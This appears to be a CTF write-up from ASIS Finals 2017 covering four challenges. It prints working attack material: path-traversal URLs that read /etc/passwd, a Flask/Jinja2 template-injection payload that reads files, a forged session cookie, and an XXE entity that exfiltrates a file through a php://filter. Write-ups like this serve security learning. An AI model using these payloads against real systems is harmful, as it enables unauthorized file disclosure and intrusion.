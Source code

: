 
# ASIS-FINALS-2017
-<b>Task name : Golem is stupid <br>
-Category : Web <br>
 </b>
-Description :  Golem is an animated anthropomorphic being that is magically created entirely from inanimate matter, but Golem is stupid! <br>
<br>

-tl;dr : SSTI to get RCE in flask session token <br>

-Challenge : <br>
-first could find obvious LFI  https://golem.asisctf.com/article?name=../../../etc/passwd  and leak etc/passwd <br>
-Trying leak other files gave us important infos : https://golem.asisctf.com/article?name=../../../../proc/self/cmdline <br>

https://golem.asisctf.com/article?name=../../../../../../etc/uwsgi/apps-enabled/golem_proj.ini was showing main script path file <br>

leaking that we can see that all parameters are kind of sanitized except token, which was then printed , looks like server side template injection<br>
All I had to do is create local flask app, forge my token using the key which was in the python file with payload, and send it to the application<br><br>

Payload : <br>
```
#creatig payload
from flask import Flask, session

app = Flask(__name__)

@app.route('/')
def run():
    session['golem'] = '{{ \'\'.__class__.__mro__[2].__subclasses__()[40](\'/opt/serverPython/golem/flag.py\').read() }}'
    return 'ok'
    

if __name__ == '__main__':
    app.secret_key = '7h15_5h0uld_b3_r34lly_53cur3d'
    app.run(host='127.0.0.1', port=2222, debug=True)
---------------------------------------------------------------------------------------------------------------------

#exploiting 
import requests

cookies={'session':'.eJwlyU0LgjAYAOC_Eu-5w9SCNugUOJl6iGgub21-QG4Z6Aab-N8zuj7PAv2oWwNkgZ0EAm0y9cwrKyL8kjQNKsJdoXEnBXObyVKj34WmYv-PeRDRacz5hMoUjcxjp7Kr29w3hvt7ptGTYlvEjZOUz0VcT49KWZUN7_x29HWVDvll6DuBzrDuYTYfIIdk_QL3ADJC.DJSUXQ.0_cgqMpbS89-sLEX2HaJRslq73I'}


r=requests.post('https://golem.asisctf.com/golem',cookies=cookies)

print r.text
```

-<br>
-Response contained flag : <b>ASIS{I_L0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}</b>

-<br><br>
-<b>------------------------------------------------------------------------------------------------------------------------------------------------------------------</b>
-<br><br><br>
<b>
-Task name :  GSA File Server  <br>
-Category : Web <br>
</b>
-Description :  GSA's file server, go find the hole, drill it and grab the flag :)
-Note that Scope is 128.199.40.185:* <br>
<br>

-tl;dr : Exploit XXE and Use a directory listing vuln to read flag<br>

-Challenge : <br>
-First find :http://128.199.40.185/showFiles was vuln to directory listing<br>
-Second find : http://128.199.40.185:8081/panelManager-0.1/ XXE injection in docx file <br>
-the solution was to download their doc file called (demo) open with archive and change inner xml (word/document.xml) with an xxe  php filter was working <br>
-```<!DOCTYPE roottag [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=../../../../fileSharing/s3cRetP4th/flagIsHeregRabiT.flag"> ]>```<br>
-<br> the directory of the flag was found using the first vuln <br>
-Flag : <b>ASIS{Vuln_web_appZ_plus_misc0nfig_eQ_dis4st3R!}</b>
-<br><br>
-<b>------------------------------------------------------------------------------------------------------------------------------------------------------------------</b>
-<br><br><br><b>
-Task name :   Chaoyang District   <br>
-Category : PPC <br></b>
-Description :  This is an AI programming challenge, so binary is not required to be provided. <br>
-tl;dr : play one game to generate sequence of winning moves, repeat same sequences 50 times ;) <br>
-Challenge : <br>
-Challenge was Reversi game vs an AI, the problem was that the same game was repeated, and the AI did same moves, so we need to win just one game, store the moves that we used and repeat for all games <br>

```
from pwn import *

nc=remote('178.62.22.245',32145)
seq=['e3','c5','b5','g3','b3','a5','b7','a7','d7','e6','a4','a8','e1','b1','g8','c8','g5','h2','g1','h6','g7','h7','d8','c1','e8','a2','h3','h5']
for z in range(0, 50):
    print "[-]", z
    for i in range(0, len(seq)):

        nc.writeline(seq[i])

nc.interactive()
```

<br>
Flag : <b>ASIS{Th3_Bra1n_Wash1nG_HAHA_AI_IS_INTERESTING}</b>
<br><br>
-<b>------------------------------------------------------------------------------------------------------------------------------------------------------------------</b>
-<br><br><b>
-Task name :   Vivid Spying   <br>
-Category : Networking <br></b>
-Description :      We have captured the spy traffic by our agents, hurry up and find the flag. : <br>
-Challenge : <br> 
-The challenge provided a DNS capture, after analyzing it for a bit we can extract some prefix in a domain name asisctf.com<br>
10.111110100001001111101011001010011100100010001011111010000101100.010111010010110111011101111101011100110011101101001011010011110.000011101100101011111010110111101100101010010010110010101000001.asisctf.com <br>
Cleaning that prefix from dots and reading it right to right didn't give printable string <br>
after adding a zero it becomes : 010000010101001101001001010100110111101101011111010100110111000001111001011010010110111001100111010111110111011101101001011101000110100001011111010001000100111001010011010111110010000101111101 <br>
-bin to ascii => <b>ASIS{_Spying_with_DNS_!} </b>
